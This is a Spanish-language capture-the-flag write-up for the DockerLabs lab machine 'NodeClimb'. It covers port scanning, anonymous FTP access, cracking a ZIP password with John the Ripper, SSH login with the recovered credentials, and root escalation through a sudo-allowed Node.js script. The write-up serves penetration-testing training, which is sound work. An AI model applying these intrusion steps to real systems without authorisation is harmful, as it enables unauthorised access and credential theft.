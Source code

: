 ### Informe Técnico: Análisis de la máquina vulnerable **NodeClimb**

**Dificultad**: Fácil

**Objetivo**: **Escalada de privilegios y acceso root a la máquina vulnerable.**


![Despliegue de la máquina](./Imágenes/2025-05-13_23-53.png)

---

#### **1. Despliegue de la máquina vulnerable**

Para comenzar, descargué la máquina **NodeClimb** desde DockerLabs. Para ello, se usa el siguiente comando para descomprimir la máquina:

```bash
unzip nodeclimb.zip
```

Una vez descomprimida, se puede desplegar ejecutando el script de instalación con privilegios de superusuario:

```bash
sudo bash auto_deploy.sh nodeclimb.tar
```

![Confirmación de conexión](./Imágenes/Capturas.png)

---

#### **2. Confirmación de conexión a la máquina vulnerable**

Con el fin de confirmar que la máquina está corriendo y es accesible, realicé un **ping** a la dirección IP de la máquina vulnerable:

```bash
ping -c1 172.17.0.3
```
![Escaneo de puertos](./Imágenes/Capturas_1.png)

---

#### **3. Escaneo de puertos con Nmap**

A continuación, utilicé **Nmap** para realizar un escaneo de puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Este escaneo reveló que los puertos 21 (FTP) y 22 (SSH) estaban abiertos.

![Escaneo exhaustivo](./Imágenes/Capturas_2.png)

---

#### **4. Extracción de puertos relevantes**

Utilizando un script personalizado llamado `extractPorts`, extraje los puertos relevantes y luego realicé un escaneo más exhaustivo para obtener información detallada, como las versiones de los servicios:

```bash
nmap -sC -sV -p21,22 172.17.0.3 -oN target.txt
```

El escaneo mostró que el servicio **FTP** permitía acceso mediante el usuario **Anonymous**, lo que nos dio acceso sin necesidad de credenciales.


![Acceso FTP](./Imágenes/Capturas_3.png)


---

#### **5. Acceso al servicio FTP**

Con el usuario **Anonymous**, ingresé al servicio FTP sin necesidad de contraseña:

```bash
ftp 172.17.0.3
# Usuario: Anonymous
# Contraseña: Enter
```

Una vez dentro, listé los archivos con el comando `ls -la` y encontré un archivo **.zip** llamado `secretitopicaron.zip`. Lo descargué a mi máquina local usando el comando:

```bash
get secretitopicaron.zip
```
![Cracking de contraseña](./Imágenes/Capturas_4.png)

---

![Archivo password.txt](./Imágenes/Capturas_5.png)

---

#### **6. Cracking de la contraseña del archivo ZIP**

Al intentar descomprimir el archivo `secretitopicaron.zip`, me pidió una contraseña. Usé la herramienta **John the Ripper** para crackear la contraseña.

**Paso 1: Extraer el hash del archivo ZIP**

```bash
zip2john secretitopicaron.zip > hash.txt
```

Esto convierte el archivo ZIP cifrado en un hash que John the Ripper puede procesar.

**Paso 2: Crackear el hash usando un diccionario (en este caso, `rockyou.txt`)**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Paso 3: Mostrar la contraseña**

```bash
john --show hash.txt
```

John encontró que la contraseña del archivo ZIP es **password1**.

![Escalada de privilegios](./Imágenes/Capturas_6.png)


---

#### **7. Descompresión y análisis del archivo `password.txt`**

Una vez que se obtuvo la contraseña, descomprimí el archivo ZIP con éxito. Dentro encontré un archivo llamado **password** con las siguientes credenciales:

```
usuario: mario
contraseña: laKontraseñAmasmalotaHdelbarrioH
```

Suponiendo que estas son las credenciales para el servicio **SSH**, intenté iniciar sesión en el servicio **SSH**.

**Nota**: Antes, intenté realizar un ataque de **fuerza bruta** con **Hydra** en el servicio SSH sin éxito.

![Escalada de privilegios](./Imágenes/Capturas_7.png)

---

#### **8. Acceso al servicio SSH**

Con las credenciales obtenidas (`mario:laKontraseñAmasmalotaHdelbarrioH`), accedí exitosamente al servicio SSH:

```bash
ssh mario@172.17.0.3
```

Una vez dentro, ejecuté el siguiente comando para verificar si tenía privilegios de **sudo** sin necesidad de contraseña:

```bash
sudo -l
```

Esto reveló que el usuario **mario** tiene acceso sin contraseña a ejecutar el siguiente comando:

```
(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

---

#### **9. Escalada de privilegios con Node.js**

Con esta información, me dirigí al directorio donde se encontraba el script (`/home/mario`) y lo edité. El script tenía permisos suficientes para ser ejecutado con **sudo**, lo que me permitió ejecutar el siguiente comando para obtener privilegios de **root**:

```bash
sudo node /home/mario/script.js
```

Luego, ejecuté:

```bash
bash -p
```

Esto abrió una terminal con privilegios **root**, completando así la escalada de privilegios.

![Escalada de privilegios](./Imágenes/Capturas_9.png)

---

### **Resumen**

* **Acceso inicial**: FTP con usuario **Anonymous**.
* **Descarga y análisis**: El archivo ZIP `secretitopicaron.zip` contiene credenciales para SSH.
* **SSH y privilegios de sudo**: El usuario **mario** puede ejecutar un script con **sudo** sin contraseña.
* **Escalada de privilegios**: Ejecución del script de Node.js para obtener acceso root.

Este informe describe el proceso completo de explotación de la máquina **NodeClimb** y la escalada de privilegios para obtener acceso root.
